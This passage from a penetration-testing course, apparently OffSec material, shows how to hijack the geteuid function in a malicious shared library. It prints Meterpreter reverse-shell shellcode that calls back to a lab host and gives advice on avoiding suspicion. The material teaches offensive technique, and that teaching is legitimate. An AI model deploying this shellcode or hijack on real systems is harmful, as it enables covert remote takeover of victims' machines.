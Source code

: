 ```
char buf[] = 
"x48x31xffx6ax09x58x99xb6x10x48x89xd6x4dx31xc9"
"x6ax22x41x5axb2x07x0fx05x48x85xc0x78x51x6ax0a"
"x41x59x50x6ax29x58x99x6ax02x5fx6ax01x5ex0fx05"
"x48x85xc0x78x3bx48x97x48xb9x02x00x05x39xc0xa8"
"x76x03x51x48x89xe6x6ax10x5ax6ax2ax58x0fx05x59"
"x48x85xc0x79x25x49xffxc9x74x18x57x6ax23x58x6a"
"x00x6ax05x48x89xe7x48x31xf6x0fx05x59x59x5fx48"
"x85xc0x79xc7x6ax3cx58x6ax01x5fx0fx05x5ex6ax7e"
"x5ax0fx05x48x85xc0x78xedxffxe6";
```

> Listing 62 - Meterpreter reverse shellcode

Following the shellcode declaration, we'll define our _geteuid_ function. The signature matches the original. It has no parameters (void) and returns a value of _uid_t_, which in this case is simply an integer.

```
uid_t geteuid(void)
{
```

> Listing 63 - Defining the function

The next line defines a pointer, which we'll use to point to the old _geteuid_ function. We're using the _typeof_[9](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5301-9) keyword to determine the pointer type dynamically. As a reminder from the AV section, a pointer is just a variable that points to a place in memory. In this case, it points to the memory location where the old _geteuid_ function is stored.

```
        typeof(geteuid) *old_geteuid;
```

> Listing 64 - Defining the pointer to the old geteuid function

This provides us access to the original function so that we can call it later on. This will allow us to retain the original functionality of the program.

Next, we use the _dlsym_[10](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5301-10) function to get the memory address of the original version of the _geteuid_ function. The _dlsym_ function finds a symbol for a dynamic library in memory. When calling it, we give it the name of the symbol we're trying to find (in this case "geteuid"). This will return the next occurrence of "geteuid" in memory outside of the current library. Calling this will skip our version of the function and find the next one, which should be the original version loaded by the program the user called.

```
        old_geteuid = dlsym(RTLD_NEXT, "geteuid");
```

> Listing 65 - Defining the pointer to the old geteuid function

At this point, it's important to point out that if we keep our original shared library code format, we are going to run into a problem. If we use it as-is, when we run our target application, it will stop and wait for our shell to return before continuing. This means that the function will stall and the _cp_ program will stall as well. This will certainly raise suspicion.

